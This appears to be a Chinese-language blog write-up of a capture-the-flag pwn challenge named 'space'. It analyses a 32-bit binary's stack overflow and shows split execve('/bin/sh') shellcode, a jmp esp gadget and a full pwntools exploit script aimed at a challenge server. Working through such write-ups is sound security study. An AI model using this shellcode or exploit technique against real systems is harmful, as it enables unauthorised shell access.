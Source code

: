 ```yaml
---
layout: post
title: "hackbox pwn space wp"
date:   2022-3-16
tags: [ctf_wp]
comments: true
author: wsxk
---
```


这道题很有意思

### 1.简单分析

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/1.png)

可以看出是一个32位的程序

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/2.png)

什么保护也没加

运行一下看看

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/3.png)

行吧，直接用IDA进行分析

### 2.IDA分析

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/4.png)

可以看到，往buf里面读31个字节后进入vuln函数

    注意了，read函数不会自动帮你设置字符串末尾的'\x00'字符，所以，你读了31个字节，就是31个字节，不会在读入30个字节后自动停止！！！

继续往下看

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/5.png)

好，找到漏洞点了，是栈溢出，根据先前看到的保护，考虑使用shellcode

### 3.查看溢出点

我们先试试要多少个字节才能覆盖ret的返回地址

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/6.png)


![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/7.png)

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/8.png)

好，现在知道是18个字节

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/9.png)

在这个地方还看到了jmp esp

是用shellcode了

### 4.shellcode编写

这道题shellcode显然是有限制的，先是不能太长，其次是不能含有'\x00'字符（strcpy会在遇到'\x00'字节后提前终止并返回）

我们知道，最多可以输入31个字符，覆盖地址是18~22个字符的位置，前面剩下18个字符，后面剩下9个字符

显然直接靠9个字符是无法shellcode的（我见过的最短的shellcode也要17给字节）

我们需要把shellcode分半，一部分放到0~18的位置

剩下一部分放入22~31的位置

中间覆盖的值是 jmp esp的地址

所以payload的格式是

shellcode_one + p32(jmp_esp) + shellcode_two

为了在执行shellcode_two后跳入shellcode_one,我们在shellcode_two中，我们需要在shellcode_two中加入跳转到shellcode_one的部分


    0:   31 c9                   xor    ecx, ecx
    2:   31 d2                   xor    edx, edx
    4:   83 ec 16                sub    esp, 0x16  #自己添加的
    7:   ff e4                   jmp    esp         #自己添加的
    9:   6a 0b                   push   0xb
    b:   58                      pop    eax
    c:   51                      push   ecx
    d:   68 2f 2f 73 68          push   0x68732f2f
    12:   68 2f 62 69 6e          push   0x6e69622f
    17:   89 e3                   mov    ebx, esp
    19:   cd 80                   int    0x80

为了看的方便，这里展示出shellcode的汇编意义,我把这段代码分成了0-9的部分和9-32的部分

shellcode的主要目标在于用int 80h命令

执行

execve('/bin//sh',0,0)

详情可以参考以下网址

[网址](https://blog.csdn.net/xiaominthere/article/details/17287965)

### 5.完整exp

    from pwn import *

    #io =process('./space')
    io = remote("167.71.134.138",31572)
    #print(asm("sub esp,22;jmp esp",arch='i386'))
    
    shellcode_one = b'\x31\xc9\x31\xd2\x83\xec\x16\xff\xe4'
    
    shellcode_two = b'\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'
    
    payload = shellcode_two + p32(0x804919F)+shellcode_one
    #payload = b'aaaabaaacaaadaaaeaaafaaagaaahaa'
    #gdb.attach(io)
    
    io.sendline(payload)
    io.interactive()
